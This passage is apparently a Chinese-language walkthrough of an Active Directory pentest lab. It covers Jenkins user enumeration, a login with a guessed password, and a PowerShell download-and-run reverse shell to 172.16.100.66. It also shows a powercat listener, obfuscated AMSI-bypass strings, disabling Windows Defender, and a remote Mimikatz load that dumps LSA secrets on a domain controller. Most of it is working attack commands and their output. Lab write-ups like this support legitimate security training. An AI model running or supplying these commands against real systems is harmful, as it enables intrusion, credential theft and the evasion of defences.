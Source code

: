 dcorp-mgmt
```

这次多了一个dcorp-mgmt

尝试在dcorp-mgmt中执行命令
```
PS C:\ad> Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName dcorp-mgmt
dcorp\srvadmin
dcorp-mgmt
```


# jenkins!

在```http://172.16.3.11:8080/```运行了一个jenkins!程序

jenkin!这个web app在未登陆的情况下，可以通过下面页面查看有什么账号
```http://172.16.3.11:8080/asynchPeople/```

收集到三个用户名
```
builduser
jenkinsadmin
manager
```

经手工测试```builduser：builduser```登录进去以后可以编辑一个RCE

payload
```
powershell.exe iex (iwr http://172.16.100.66/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.66 -Port 443
```

powercat监听
```
PS C:\ad> powercat -l -v -p 443 -t 100
VERBOSE: Set Stream 1: TCP
VERBOSE: Set Stream 2: Console
VERBOSE: Setting up Stream 1...
VERBOSE: Listening on [0.0.0.0] (port 443)
VERBOSE: Connection from [172.16.3.11] port  [tcp] accepted (source port 50288)
VERBOSE: Setting up Stream 2...
VERBOSE: Both Communication Streams Established. Redirecting Data Between Streams...

Windows PowerShell running as user ciadmin on DCORP-CI
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project1>PS C:\Program Files (x86)\Jenkins\workspace\project1> whoami
dcorp\ciadmin
PS C:\Program Files (x86)\Jenkins\workspace\project1> hostname
dcorp-ci
```

收到一个反弹shell

bypass powershell和AMSI

远程加载Mimikatz和powerview
```
iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)


[dcorp-adminsrv]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]
[dcorp-adminsrv]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollecti
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> . .\Invoke-Mimikatz.ps1
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> powershell -ep bypass
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') +
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> Invoke-Mimikatz
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents>  Invoke-Mimikatz -Command '"lsadump::lsa /patch"'